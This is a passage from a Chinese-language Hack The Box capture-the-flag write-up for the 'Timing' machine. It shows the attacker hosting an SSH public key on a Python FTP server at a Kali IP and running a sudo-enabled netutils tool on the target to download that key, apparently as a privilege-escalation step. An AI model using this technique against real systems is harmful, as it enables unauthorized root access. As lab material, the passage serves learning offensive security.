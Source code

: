 ```
|   o . + + *o..o+|
|  o   . S o  .o.*|
| .   o o *   + o.|
|  ....o +     o  |
| .  +  + .       |
|.....o. .        |
+----[SHA256]-----+
```

将公钥的副本放在我们的工作文件夹中:

```
┌──(root💀kali)-[~]
└─# cp .ssh/id_rsa.pub htb/timing
```

# Python FTP 服务器

如果需要，安装 Python3 FTP 库:

![](img/9ec224c8f9dfd5db49bfb8f2a7678ee2.png)

安装 pyftpdlib

现在启动一个 FTP 服务器，这样我们就可以获得我们的 SSH 公钥:

```
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m pyftpdlib -p 21
[I 2021-12-29 22:15:26] concurrency model: async
[I 2021-12-29 22:15:26] masquerade (NAT) address: None
[I 2021-12-29 22:15:26] passive ports: None
[I 2021-12-29 22:15:26] >>> starting FTP server on 0.0.0.0:21, pid=1597 <<<
```

切换回盒子，再次运行 netutils 应用程序，这次为 FTP 选择 0，并输入我们的 Kali IP 和我们托管在那里的 SSH 公钥:

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: 10.10.14.12/id_rsa.pub
```
